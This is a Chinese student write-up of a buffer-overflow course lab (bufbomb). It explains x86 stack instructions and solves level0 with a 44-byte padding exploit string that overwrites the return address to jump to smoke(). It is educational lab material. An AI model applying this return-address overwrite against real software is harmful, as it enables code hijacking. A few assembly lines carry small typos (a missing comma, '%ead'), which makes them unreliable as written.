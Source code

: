 - LAB4-buflab

# 基本操作&小知识

* 设置用户名
```bash
$ ./markdown Lancer
> 0x17dab4ef
```

* 十六进制转ASCII码
```bash
$ ./hex2raw < exploit.txt > exploit-raw.txt
```

* 答案放在文件中运行bufbomb
```bash
$ ./bufbomb -u Lancer < exploit-raw.txt
```

* push、pop、call、leave、ret
    * push: 栈指针先向下移，后复制到栈
    等价于
    ```assembly
    subl    $4, %esp
    movl    %ebp (%esp)
    ```
    * pop: 先取出数据，后栈指针向上移
    等价于
    ```assembly
    movl    (%esp), %ead
    addl    $4, %esp
    ```
    * call: 将返回地址（下一条指令的ip）压入栈，后跳转
    等价于
    ```assembly
    push    %eip
    jmp     08049262 <func>
    ```
    * leave: 将栈指针指向帧指针，后pop备份的原指针到%ebp
    等价于
    ```assembly
    mov     %ebp, %esp
    pop     %ebp
    ```
    * ret: 把原先压入栈的ip内容进行出栈，并送入ip中
    等价于
    ```assembly
    pop     ip      # 实际上不存在这样的指令，只是方便记忆
    ```

# 解题

## level0
```c
void test()
{
    int val;
    /* Put canary on stack to detect possible corruption */
    volatile int local = uniqueval();

    val = getbuf();     // 关键在这一行，怎么让getbuf()缓冲区溢出跳转到smoke()函数

    /* Check for corrupted stack */
    if (local != uniqueval()) {
        printf("Sabotaged!: the stack has been corrupted\n");
    }
    else if (val == cookie) {
        printf("Boom!: getbuf returned 0x%x\n", val);
        validate(3);
    } else {
        printf("Dud: getbuf returned 0x%x\n", val);
    }
    }
```

```assembly
08049262 <getbuf>:
getbuf():
 8049262:	55                   	push   %ebp
 8049263:	89 e5                	mov    %esp,%ebp
 8049265:	83 ec 38             	sub    $0x38,%esp
 8049268:	8d 45 d8             	lea    -0x28(%ebp),%eax		# 缓冲区大小为0x28（40）
 804926b:	89 04 24             	mov    %eax,(%esp)
 804926e:	e8 bf f9 ff ff       	call   8048c32 <Gets>
 8049273:	b8 01 00 00 00       	mov    $0x1,%eax            # <- 执行到这里的栈
```
![stack_0x8049273](./image/stack_0x8049273.jpg)
```assembly
 8049278:	c9                   	leave  
 8049279:	c3                   	ret                         # <- 执行到这里时
```
![stack_0x8049279](./image/stack_0x8049279.jpg)

所以，要想跳转到`08048e0a <smoke>`，要先垫40 + 4 = 44字节，接下来的4个字节存要跳转的地址。  
因为采用的小端法，所以跳转地址还得反着写。  
还有一点值得注意，0a对应的ASCII码是`\n`换行，所以不能填。这里我们填`0a`的下一个数`0b`。  
答案如下，当然得用`./hex2raw`转换后才能用啦。
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 0b 8e 04 08     /* 0a是换行，不能填 */
```